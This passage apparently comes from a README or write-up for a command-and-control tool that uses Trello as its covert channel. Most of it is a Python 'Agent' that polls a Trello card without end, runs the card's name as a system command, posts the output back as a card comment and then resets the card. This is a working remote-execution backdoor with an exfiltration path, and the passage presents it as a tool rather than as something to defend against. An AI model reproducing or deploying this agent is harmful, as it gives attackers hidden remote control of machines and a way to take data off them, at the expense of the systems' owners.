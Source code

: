 From there we can get the cards using the following API:
[https://api.trello.com/1/lists/id/cards?key=key&token=token](https://api.trello.com/1/lists/id/cards?key=key&token=token)
### Agent
```python
import requests
import json
import subprocess

API_KEY = "REDACTED"
TOKEN = "REDACTED"
CARD_ID = "REDACTED"

def Exec(cmd):
    output = subprocess.check_output(cmd, shell=False)
    return output

while True:
    card_url = f"https://api.trello.com/1/cards/{CARD_ID}"
    comment_url = f"https://api.trello.com/1/cards/{CARD_ID}/actions/comments"
    headers = {
    "Accept": "application/json"
    }
    query = {
    'key': API_KEY,
    'token': TOKEN
    }
    response = requests.request(
    "GET",
    card_url,
    headers=headers,
    params=query
    )
    response_json = response.json()
    if response_json.get('name') == "nothing":
        continue

    output = Exec(response_json.get('name')).decode()
    data = {
        "text":output
    }
    requests.post(comment_url,params=query,headers=headers,data=data)
    requests.put(card_url,params=query,headers=headers,data={"name":"nothing"})
```
Here we make use of the card ID we got earlier. Then we use the corresponding API to get the name of the card and if it's not set to `nothing`:

![trello](./images/trello-2.png)
